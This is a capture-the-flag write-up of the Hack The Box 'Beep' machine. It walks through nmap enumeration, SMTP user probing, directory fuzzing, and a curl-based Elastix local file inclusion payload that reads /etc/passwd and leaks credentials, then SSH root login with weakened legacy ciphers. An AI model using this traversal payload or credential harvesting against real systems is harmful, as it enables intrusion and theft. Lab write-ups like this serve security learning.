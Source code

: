 # Beep

So, on initial nmap scan, we see a lot of ports open, so lets go through each of them in order, keeping http at last, since it probably has a wider attack surface

So, the smaller services enumeration has been done, and I've added the notes for these services in the below scan result inline, after this lets get into doing this for HTTP.

```text
srinivas@ubuntu:~/htb/beep$ cat beep.nmap 
# Nmap 7.80 scan initiated Sun Aug  1 12:34:26 2021 as: nmap -sS -sV -sC -oN beep.nmap 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.10s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
# some denial of service vulnerability here, nothing major

25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
# we can do user enumeration or something here, lets try that
# ran a smtp nmap scripts in the background, lets comeback here later
# perl -X smtp-user-enum.pl -M VRFY -U names.txt -t 10.10.10.7 - not much we got from here

80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS) # says this is centos
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL USER EXPIRE(NEVER) LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) APOP TOP STLS AUTH-RESP-CODE PIPELINING RESP-CODES
# none of these versions seem to be vulnerable or anything

111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: QUOTA IMAP4rev1 MULTIAPPEND UIDPLUS NO OK ATOMIC ID RIGHTS=kxte X-NETSCAPE LIST-SUBSCRIBED IMAP4 LISTEXT ACL IDLE THREAD=REFERENCES LITERAL+ CHILDREN NAMESPACE BINARY RENAME THREAD=ORDEREDSUBJECT UNSELECT ANNOTATEMORE SORT SORT=MODSEQ MAILBOX-REFERRALS STARTTLS CONDSTORE URLAUTHA0001 CATENATE Completed
# to do this as well

443/tcp   open  ssl/https?
|_ssl-date: 2021-08-01T19:37:45+00:00; -1s from scanner time.

880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
# take a look if nothing works

10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
# looks like if we get some creds this would work

Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: -1s
```

So, the web server says that it supports a lower version of TLS, so lets try to get our browser to work with the lower versions of TLS. to do that, we need to change the TLS min version in firefox, which we can obtain how to do if we do a quick google on that.

we have quite some hits from the ffuf scan we did on the server after we enabled lower TLS versions from the command line. lets go through them

```text
# nothing much under here just some static php files
https://beep.localdomain/configs/

# similar above result for /robots.txt, /var/backups/, /var/cache/

# going on this show us that we are on some sort of mail server
# this has some stuff in EDB, but nothing major just some XSS related
https://beep.localdomain/mail/

# and if we look at the headers we obtain from this results, it clues us that
# it is a software called elastix - elastixSession=to9j1kqfdh6356er8b7b5h0d36

https://www.exploit-db.com/exploits/37637 - elastix LFI, we get to read some files
so we got an user called fanis from here, lets add him and root to our users file
curl https://beep.localdomain/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00\&module=Accounts\&action -k
```

I try to read some more files, but no luck at here, so I've looked at the example conf file thats given in the EDB POC, which seems to have some interesting data and bingo, it has a bunch of usernames and password, although most of the passwords looks like they are one and same. Now I try to run Hydra, but it doesn't give us anything because of the older ssh version.

manually doing ssh after adding the following in the ~/.ssh/config file worked and we are root

```text
Host 10.10.10.7
    Ciphers 3des-cbc
    KexAlgorithms +diffie-hellman-group1-sha1
```

